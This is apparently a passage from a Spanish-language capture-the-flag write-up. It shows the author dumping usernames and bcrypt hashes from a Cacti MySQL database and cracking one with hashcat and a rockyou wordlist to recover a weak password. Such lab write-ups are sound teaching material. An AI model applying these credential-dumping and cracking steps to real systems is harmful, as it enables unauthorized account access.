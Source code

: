 Buscando por datos interesante en la base de datos `cacti`, encontramos una tabla interesante

```bash
MySQL [cacti]> describe user_auth;
+------------------------+-----------------------+------+-----+---------+----------------+
| Field                  | Type                  | Null | Key | Default | Extra          |
+------------------------+-----------------------+------+-----+---------+----------------+
| id                     | mediumint(8) unsigned | NO   | PRI | NULL    | auto_increment |
| username               | varchar(50)           | NO   | MUL | 0       |                |
| password               | varchar(256)          | NO   |     |         |                |
| realm                  | mediumint(8)          | NO   | MUL | 0       |                |
| full_name              | varchar(100)          | YES  |     | 0       |                |
| email_address          | varchar(128)          | YES  |     | NULL    |                |
| must_change_password   | char(2)               | YES  |     | NULL    |                |
| password_change        | char(2)               | YES  |     | on      |                |
| show_tree              | char(2)               | YES  |     | on      |                |
| show_list              | char(2)               | YES  |     | on      |                |
| show_preview           | char(2)               | NO   |     | on      |                |
| graph_settings         | char(2)               | YES  |     | NULL    |                |
...[snip]
```

Mostrando sus datos filtrando por las columnas de `username` y `password`, encontramos unas credenciales

```bash
MySQL [cacti]> SELECT username,password FROM user_auth;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC |
| guest    | 43e9a4ab75570f5b                                             |
| marcus   | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C |
+----------+--------------------------------------------------------------+
3 rows in set (0.001 sec)
```

Podemos intentar crackearlos, el único inconveniente es que al ser de tipo Bcrypt pueden tardar bastante, asi que solo vamos a fijarnos en el de marcus. 

Utilizando `hashcat` vemos que el hash resulta ser crackeable al final aunque dure unos minutos, utiliza una contraseña débil:

```bash
# hashcat -m 3200 hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:funkymonkey
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70Jonsd...hFYK4C
Time.Started.....: Tue Aug 29 18:52:13 2023 (2 mins, 53 secs)
Time.Estimated...: Tue Aug 29 18:55:06 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       50 H/s (10.34ms) @ Accel:4 Loops:32 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 8528/14344384 (0.06%)
Rejected.........: 0/8528 (0.00%)
Restore.Point....: 8512/14344384 (0.06%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:992-1024
Candidate.Engine.: Device Generator
Candidates.#1....: madona -> figueroa
Hardware.Mon.#1..: Temp: 84c Util: 92%

Started: Tue Aug 29 18:51:21 2023
```